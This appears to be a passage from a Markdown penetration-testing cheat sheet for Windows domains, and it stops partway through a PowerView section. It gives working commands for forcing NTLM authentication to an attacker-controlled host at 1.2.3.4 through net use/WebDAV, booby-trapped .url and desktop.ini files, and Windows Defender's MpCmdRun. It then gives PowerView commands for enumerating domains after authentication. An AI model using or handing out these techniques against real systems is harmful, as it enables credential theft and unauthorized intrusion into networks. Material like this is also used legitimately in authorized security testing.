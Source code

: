 ```
dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe
```
###### Net command + WebDAV envoke
```
* net use \\\\1.2.3.4@80\\t
* net use * \\\\1.2.3.4@SSL@443\\folder\\subfolder password /user:userID
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* net use * http://1.2.3.4/folder/subfolder password /user:root
* net use * \\\\1.2.3.4\\folder\\subfolder password /user:userID
* net use \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe \. (the DavWWWRoot triggers WebDAV forcibly )
* net use \\\\domain.site@80\\uri_folder\\index.html
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe
```
###### Create .url file to leak using “ICO” request to file share
```
Create a new TXT file and paste the following:<br/>
[InternetShortcut]  <br/>
URL=http://www.WeLoveResponder.com <br/>
IconIndex=0  <br/>
IconFile\=\\\\1.2.3.4\\L3\\3T.ico
Rename the file from .txt to .url
```
###### Create desktop.ini file to leak credentials using a folder
```
mkdir Folder <br/>
attrib +s Folder <br/>
cd Folder <br/>
echo [.ShellClassInfo] > desktop.ini <br/>
echo IconResource\=\\\\1.2.3.4\\aa >> desktop.ini <br/>
attrib +s +h desktop.ini
```
###### Windows Defender MpCmdRun
```
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -Scan  -ScanType 3 -File \\\\Server.domain\\file.txt
"c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe -path \\\\Server.domain\\
```
More on this [Github](https://github.com/Gl3bGl4z/All_NTLM_leak)

### Post Auth

#### Domain Info

##### Powerview
Get Current Domain:
```
Get-NetDomain
```
Enum Other Domains:
```
Get-NetDomain -Domain <domain_name>
```
Get Domain SID:
```
Get-DomainSID
```
Get Domain Policy:
```
Get-DomainPolicy
```
Get Domain Controlers: